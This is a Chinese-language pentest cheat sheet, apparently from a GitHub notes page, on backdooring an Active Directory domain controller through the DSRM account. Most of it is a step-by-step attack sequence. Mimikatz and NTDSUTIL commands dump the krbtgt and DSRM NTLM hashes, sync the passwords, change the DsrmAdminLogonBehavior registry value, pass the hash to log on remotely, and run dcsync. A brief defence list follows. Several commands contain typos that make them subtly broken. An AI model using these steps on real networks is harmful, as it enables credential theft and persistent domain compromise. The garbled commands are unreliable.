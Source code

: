 ### 域控制器权限持久化

#### DSRM域后门
- DSRM

```
目录服务恢复模式
使用DSRM账号恢复
03不使用
08需要安装KB961320补丁
08以后不需要
```
- 使用

```
mimikatz

获取krbtgt NTLM HASH
privilege::debug
lasdump::lsa /patch /name:krbtgt

获取DSRM账号的NTLM Hash
token:elevate
lsadump:sam

将DSRM账号和krbtgt的ntlm hash同步
NTDSUTIL
SET DSRM PASSWORD
SYNC FROM DOMAIN account krbtgt

查看是否同步成功
lsadump::sam

修改DSRM登陆方式
新建HKLM\System\CurrentControlSet\Control\Lsa\DsrmAdminLogonBehavior为2
使用powershell更改
New-ItemProperty "hkim:system\currentrolset\control\lsa\" -name "dsemadminlogonbehavior" -value 2 -propertyType DWORD

使用dsrmz账号通过网络远程登陆域控制器
privilege::debug
sekurlsa:pth /domain:DC /user:administrator /ntlm:53ebxxxx

dcysnc转储krbtgt ntlm hash
lsadump::dcsync /domain:pentest.com /dc:dc /user:krbtgt

防御：
检查注册表
修改dsrm账号
经常检测ID为4794的日志
```

- DerbyCON
